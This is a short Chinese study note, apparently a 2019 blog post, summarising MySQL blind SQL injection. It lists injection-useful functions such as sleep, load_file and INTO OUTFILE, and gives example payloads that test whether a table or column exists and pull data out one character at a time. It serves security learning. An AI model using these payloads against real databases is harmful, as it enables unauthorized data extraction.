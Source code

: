 ```yaml
---
layout: post
title: "MySQL盲注小结"
subtitle: "MySQL盲注小结"
date: 2019-08-01
author: ppbibo
category: 习信息安全系列
finished: true
---
```

[TOC]

**注入常用的函数**



MID(要截取的字符串，起始位置，结束为止)        // 截取字符串

CHAR(ASCII)                                                         // 返回ASCII码对应的字符

ASCII(字符)                                                            // 返回字符对应的ASCII码值

ord(字符)                                                                // 返回字符对应的ASCII码值

IF(逻辑表达式，True返回值，Flase返回值)           // 逻辑判断

SubStr(要截取的字符串，起始位置，结束为止)    // 截取字符串

length(字符串)                                                       // 返回字符串的长度

count(列名)                                                            // 返回当前列名下有效记录数*(NULL不计入)*

sleep(s)                                                                  // 延时s秒

\#、/**/、--                                                             // 注释符

concat(字符串1,字符串2)                                       // 拼接字符串

load_file(文件路径及名称)                                      // 直接加载文件到源码中

INTO OUTFILE '文件路径及名称'                          // 输出





**判断是否存在users表名**

```mysql
select * from users where id=1 and 0<(select count(*) from users);   
```

*// 返回真则存在users表名*



**判断是否存在name字段**

```mysql
select * from users where id=1 and 0<(select count(name) from users);   
```

*// 返回真则存在name字段*



**取出 name 字段内容**

```mysql
select * from users where id=1 and 'g' = mid((select name from users limit 1),8,1);
```

*// 'g' 是遍历的,后面的为真则递增加1，一直到8说明name字段的长度为8位；*

*// 在递增加1的话则永远为假，到这个时候脚本就可以停止了。*